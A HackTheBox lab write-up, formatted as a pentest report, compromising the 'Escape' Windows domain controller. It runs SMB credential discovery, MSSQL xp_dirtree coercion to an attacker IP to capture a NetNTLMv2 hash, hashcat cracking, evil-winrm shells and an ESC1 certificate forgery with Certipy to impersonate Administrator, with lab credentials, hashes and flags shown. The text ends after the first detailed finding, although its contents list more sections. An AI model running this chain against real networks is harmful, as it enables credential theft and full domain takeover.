# Escape — HackTheBox Report

| Difficulty | OS      | Category         |
| ---------- | ------- | ---------------- |
| Medium     | Windows | Active Directory |

> Writeup of a retired Escape machine, published for educational/portfolio purposes.
---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. SMB Enumeration](#12-smb-enumeration)
  * [1.3. Credential Discovery in Public Share](#13-credential-discovery-in-public-share)
  * [2.1. Initial MSSQL Access](#21-initial-mssql-access)
  * [2.2. Coercing SQL Service Authentication](#22-coercing-sql-service-authentication)
  * [2.3. Cracking the NetNTLMv2 Hash](#23-cracking-the-netntlmv2-hash)
  * [2.4. Foothold via WinRM](#24-foothold-via-winrm)
  * [3.1. Credential Discovery in SQL Server Log](#31-credential-discovery-in-sql-server-log)
  * [3.2. Lateral Movement to Ryan.Cooper](#32-lateral-movement-to-ryancooper)
  * [3.3. User Flag](#33-user-flag)
  * [4.1. ADCS Enumeration](#41-adcs-enumeration)
  * [4.2. ESC1 Exploitation — Certificate Request](#42-esc1-exploitation--certificate-request)
  * [4.3. Authentication as Administrator](#43-authentication-as-administrator)
  * [4.4. Administrator Access and Root Flag](#44-administrator-access-and-root-flag)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Escape / IP: 10.129.228.253` **Platform:** `HackTheBox` **Date Completed:** `September 27, 2026` **Assessment Type:** `Active Directory / Windows Host` **Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was engaged to conduct a simulated attack against the HackTheBox Escape environment. The test was carried out from the perspective of a complete outsider with no prior access, credentials, or knowledge of the environment.

The results are serious. Our team was able to gain full administrative control of the organization's primary server — an Active Directory Domain Controller — starting from a position of zero access. In a real-world scenario, this would allow an attacker to read every file on the network, take over or create any user account, and cause severe operational disruption, all without physical access to any device.

Five security issues made this possible. They relate to sensitive login details being left in a document on an openly accessible file share, a database service that could be tricked into leaking its own account password, a weak password that was cracked in seconds, more credentials being written to an application log file in readable form, and a misconfigured internal certificate system that allowed a low-privileged user to impersonate the top administrator account.

The overall risk is rated **Critical**. The actions outlined in the Remediation Summary section of this report should be treated as an immediate priority.

---

## Scope

| Host / URL / IP Address        | Description                                                              |
| ------------------------------ | ----------------------------------------------------------------------- |
| `sequel.htb / 10.129.228.253`  | Target machine — Windows Server Domain Controller (`dc.sequel.htb`)      |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.
---

## Approach / Methodology

1. **Reconnaissance** — active port and service discovery against the target.
2. **Scanning & Enumeration** — SMB share enumeration and file collection with guest access.
3. **Vulnerability Analysis** — identifying exposed credentials, coercible services, weak passwords, and misconfigured certificate templates.
4. **Exploitation** — MSSQL authentication and NTLM authentication coercion for initial foothold.
5. **Privilege Escalation** — credential recovery from a service log and abuse of a vulnerable ADCS template (ESC1).
6. **Post-Exploitation** — validating full administrative access, capturing flags, and documenting impact.

---

## Tools Used

| Tool                 | Purpose                                                                        |
| -------------------- | ----------------------------------------------------------------------------- |
| `Nmap`               | Port scanning and service enumeration                                         |
| `smbclient`          | SMB share enumeration and file retrieval                                       |
| `impacket-mssqlclient` | Authenticating to and interacting with Microsoft SQL Server                  |
| `Responder`          | Capturing the NetNTLMv2 hash of the coerced SQL service account               |
| `xp_dirtree`         | MSSQL stored procedure used to coerce outbound SMB authentication             |
| `Hashcat`            | Dictionary-based cracking of the captured NetNTLMv2 hash                       |
| `Evil-WinRM`         | Credential- and hash-based remote shell access via WinRM                       |
| `Certipy`            | Enumerating and exploiting the vulnerable ADCS certificate template (ESC1)     |
| `ntpdate`            | Synchronising clock skew with the DC for Kerberos authentication              |
| PowerShell           | Post-exploitation enumeration (user listing, log file review, flag retrieval) |

---

## Assessment Summary (Findings Overview)

Starting from a completely unauthenticated position, database credentials were recovered from a document left on an openly accessible SMB share. Those credentials granted access to Microsoft SQL Server, which was then coerced into authenticating outbound to an attacker-controlled host, leaking the SQL service account's NetNTLMv2 hash. The hash was cracked to a weak plaintext password, providing a remote shell. A second account's plaintext credentials were then recovered from a SQL Server log file, and that account was used to exploit a misconfigured Active Directory Certificate Services template (ESC1) to impersonate the Domain Administrator, resulting in full domain compromise. The overall risk is assessed as **Critical**.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 1     |
| High          | 2     |
| Medium        | 1     |
| Low           | 1     |
| Informational | 0     |

| # | Severity | Finding Name                                                                        |
| --- | -------- | ---------------------------------------------------------------------------------- |
| 1 | Critical | Misconfigured ADCS Template (ESC1) Enabling Domain Administrator Impersonation      |
| 2 | High     | Exposed Credentials in Document on Accessible SMB Share                             |
| 3 | High     | Domain Credentials Stored in Plaintext in SQL Server Log File                       |
| 4 | Medium   | MSSQL Service Coercible into Leaking Account Hash (`xp_dirtree`)                     |
| 5 | Low      | Weak Service Account Password                                                        |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to domain Administrator compromise, step by step, with commands and evidence. Lab IPs and credentials are shown as this is a retired HTB machine, published for educational and portfolio purposes.

### 1.1. Reconnaissance

```
sudo nmap 10.129.228.253 -sC -sV -Pn
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-27 18:32 EDT
Nmap scan report for 10.129.228.253
Host is up (0.0067s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-28 02:32:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:** The target is a Windows Server Domain Controller for the `sequel.htb` domain (`dc.sequel.htb`). Key open ports include:

| Port    | Service     | Significance                                                                     |
| ------- | ----------- | ------------------------------------------------------------------------------- |
| 53      | DNS         | Domain naming — confirms DC role                                                 |
| 88      | Kerberos    | Authentication service — confirms DC role                                        |
| 139/445 | SMB         | File sharing — high-value enumeration target                                     |
| 389/636 | LDAP        | Directory services                                                               |
| 1433    | MSSQL       | Microsoft SQL Server 2019 — authentication and coercion target                   |
| 5985    | WinRM       | Remote management — foothold vector if credentials are found                     |

The presence of multiple certificate-related LDAP services and the long-lived self-signed certificate hint at an Active Directory Certificate Services (ADCS) deployment, which later proved to be the privilege escalation path. Host entries were added for name resolution:

```
echo '10.129.228.253 sequel.htb dc.sequel.htb' | sudo tee -a /etc/hosts
```

---

### 1.2. SMB Enumeration

```
smbclient -L \\\\sequel.htb\\
```

[](./images/smblist.png)

**Findings:** The share listing was returned successfully. Alongside the default administrative shares, a non-default `Public` share is present and is an immediate point of interest, as such shares frequently hold documents that were never intended to be broadly readable.

---

### 1.3. Credential Discovery in Public Share

The `Public` share was accessed and a PDF document, `SQL Server Procedures.pdf`, was retrieved:

```
smbclient  \\\\sequel.htb\\public
dir
get "SQL Server Procedures.pdf"
exit
```

Reviewing the document revealed a "Bonus" section containing database credentials intended for new hires awaiting their own accounts:

[](./images/credentialsmssql.png)

**Credentials recovered:**

```
PublicUser
GuestUserCantWrite1
```

---

### 2.1. Initial MSSQL Access

The recovered credentials were used to authenticate to Microsoft SQL Server with Impacket's `mssqlclient`:

```
impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
```

[](./images/mssql.png)

**Result:** Authentication succeeded and an interactive SQL shell was obtained. No sensitive data was present in the accessible databases, so the SQL service was leveraged as an authentication-coercion vector instead.

---

### 2.2. Coercing SQL Service Authentication

Microsoft SQL Server exposes the `xp_dirtree` stored procedure, which lists the contents of a directory. When pointed at a UNC path on an attacker-controlled host, the SQL service account authenticates outbound over SMB, exposing its NetNTLMv2 hash. `Responder` was started to capture the inbound authentication:

```
sudo responder -I tun0 -v
```

From the SQL shell, `xp_dirtree` was directed at the attacker host:

```
EXEC MASTER.sys.xp_dirtree '\\10.10.15.85\test', 1, 1
```

[](./images/sqlsvchash.png)

**Findings:** The SQL service account `sequel\sql_svc` authenticated to the attacker-controlled host, and Responder captured its NetNTLMv2 hash:

```
sql_svc::sequel:a0b8f06bf12dda68:9AB0DE8AB94588EA34D16EACC611089D:010100000000000000373654B14EDD012D8610191D170B710000000002000800540050004700330001001E00570049004E002D00360034004F0037004F00480045004F0031004900590004003400570049004E002D00360034004F0037004F00480045004F003100490059002E0054005000470033002E004C004F00430041004C000300140054005000470033002E004C004F00430041004C000500140054005000470033002E004C004F00430041004C000700080000373654B14EDD01060004000200000008003000300000000000000000000000003000004E0E4E09D0F6E0A462F7DDF8A9A7C9421572F8769FE1508E8519FDF56E7874FA0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E00380035000000000000000000
```

---

### 2.3. Cracking the NetNTLMv2 Hash

The captured hash was saved and cracked with Hashcat (mode 5600, NetNTLMv2) against the `rockyou.txt` wordlist:

```
echo 'sql_svc::sequel:a0b8f06bf12dda68:9AB0DE8AB94588EA34D16EACC611089D:0101000000000000...' > hash.txt

hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

[](./images/sqlsvcpasswd.png)

**Password recovered:** `sql_svc` : `REGGIE1234ronnie`

The password was cracked in approximately six seconds, confirming it is weak and present in a common wordlist.

---

### 2.4. Foothold via WinRM

The recovered credentials were used to open a remote PowerShell session over WinRM:

```
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```

The user directories were listed to identify other accounts on the host:

[](./images/usernames.png)

**Result:** An interactive shell was obtained as `sequel\sql_svc`. The presence of a `Ryan.Cooper` profile alongside `Administrator` indicated further accounts to target for lateral movement.

---

### 3.1. Credential Discovery in SQL Server Log

Continued enumeration of the host surfaced an archived SQL Server error log. Reading it revealed a failed login attempt in which a user had mistakenly typed their password into the username field:

```
type c:\sqlserver\Logs\ERRORLOG.bak
```

[](./images/ryancoppercreds.png)

**Findings:** The log recorded a failed logon for `sequel.htb\Ryan.Cooper` immediately followed by a failed logon for `NuclearMosquito3`. This pattern — a valid username failing, then the "username" `NuclearMosquito3` failing an instant later — is the classic signature of a user entering their password into the username field by mistake. The two values pair into a working credential.

**Credentials recovered:**

```
sequel.htb\Ryan.Cooper
NuclearMosquito3
```

---

### 3.2. Lateral Movement to Ryan.Cooper

The recovered credentials were used to open a new WinRM session as `Ryan.Cooper`:

```
evil-winrm -i sequel.htb -u ryan.cooper -p NuclearMosquito3
```

**Result:** Authentication succeeded, confirming the credentials recovered from the log file and providing an interactive shell as `sequel\Ryan.Cooper`.

---

### 3.3. User Flag

```
type C:\Users\Ryan.Cooper\Desktop\user.txt
```

[](./images/userflag.png)

**user.txt:** `677246a66c604e88da012d5c26e03fc9`

---

### 4.1. ADCS Enumeration

The nmap scan indicated an Active Directory Certificate Services deployment. Using `Ryan.Cooper`'s credentials, Certipy was run to enumerate vulnerable certificate templates:

```
.\Certipy.exe find -vulnerable -stdout -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.129.228.253
```

**Findings:** Certipy identified the `UserAuthentication` template as vulnerable to **ESC1**:

```
Template Name                       : UserAuthentication
    Enabled                             : True
    Client Authentication               : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Authorized Signatures Required      : 0
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Domain Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

The template allows any member of `Domain Users` to enrol, permits client authentication, and — critically — allows the enrollee to supply an arbitrary Subject Alternative Name (`ENROLLEE_SUPPLIES_SUBJECT`). This means any domain user can request a certificate that authenticates *as any other user in the domain*, including the Domain Administrator.

---

### 4.2. ESC1 Exploitation — Certificate Request

Using `Ryan.Cooper`'s credentials, Certipy was used to request a certificate from the vulnerable template while specifying the `administrator` account as the Subject Alternative Name:

```
certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication
```

[](./images/adminpfx.png)

**Result:** The certificate was issued with the UPN `administrator@sequel.htb` and saved as `administrator.pfx`. The DC's clock skew was then synchronised to ensure Kerberos authentication would succeed:

```
sudo ntpdate -u dc.sequel.htb
```

---

### 4.3. Authentication as Administrator

The issued certificate was used to authenticate as the Domain Administrator and retrieve the account's NT hash:

```
certipy auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.129.228.253
```

[](./images/adminhash.png)

**Result:** Certipy obtained a Kerberos TGT for the `administrator` account and recovered its NT hash:

**Administrator NT hash:** `a52f78e4c751e5f5e17e1e9f3e58f4ee`

---

### 4.4. Administrator Access and Root Flag

The recovered NT hash was used to authenticate to WinRM via pass-the-hash, opening a session with full administrative privileges:

```
evil-winrm -i sequel.htb -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
type C:\Users\Administrator\Desktop\root.txt
```

[](./images/rootflag.png)

**Result:** Full administrative access to the Domain Controller was achieved, completing the domain compromise.

**root.txt:** `0e0b2b5c5f553b018c79c28082421031`

---

## Technical Findings Details

### 1. Misconfigured ADCS Template (ESC1) Enabling Domain Administrator Impersonation — Critical

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-295: Improper Certificate Validation / CWE-269: Improper Privilege Management                                                                                                                        |
| **CVSS 3.1 Score**                 | 9.8 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                                                                          |
| **Description (Incl. Root Cause)** | The Active Directory Certificate Services `UserAuthentication` template is configured with the `ENROLLEE_SUPPLIES_SUBJECT` flag, allows Client Authentication, does not require manager approval, and grants enrolment rights to the broad `Domain Users` group. This combination is the ESC1 misconfiguration: any authenticated domain user can request a certificate and specify an arbitrary Subject Alternative Name (SAN). By setting the SAN to `administrator@sequel.htb`, the low-privileged `Ryan.Cooper` account obtained a certificate valid for authenticating as the Domain Administrator, then used it to recover the Administrator's NT hash. |
| **Security Impact**                | Any domain user — including the initially compromised low-privileged accounts — can impersonate the Domain Administrator and obtain full control of the domain. This finding is the final step in the full domain compromise chain and represents complete loss of confidentiality, integrity, and availability across the entire Active Directory environment. |
| **Affected Host(s)**               | `dc.sequel.htb` — Certificate Authority `sequel-DC-CA`, template `UserAuthentication`                                                                                                                    |
| **Remediation**                    | - Remove the `ENROLLEE_SUPPLIES_SUBJECT` flag from the `UserAuthentication` template so that subjects are built from Active Directory rather than user-supplied input — Restrict enrolment rights to only the specific accounts or groups that operationally require certificate-based authentication, rather than `Domain Users` — Enable Manager Approval (CA certificate manager approval) for templates that permit client authentication — Audit all certificate templates across the CA for the ESC1–ESC8 misconfigurations and rotate the Administrator credentials, which have been disclosed |
| **References**                     | [MITRE ATT&CK: T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/) · [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html) · [SpecterOps — Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) |

**Evidence:**

```
# Vulnerable template identified:
.\Certipy.exe find -vulnerable -stdout -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.129.228.253
# UserAuthentication -> ESC1: Enrollee supplies subject and template allows client authentication

# Certificate requested impersonating Administrator via SAN:
certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication
# Got certificate with UPN 'administrator@sequel.htb' -> administrator.pfx

# Administrator NT hash recovered:
certipy auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.129.228.253
# NT hash: a52f78e4c751e5f5e17e1e9f3e58f4ee
```

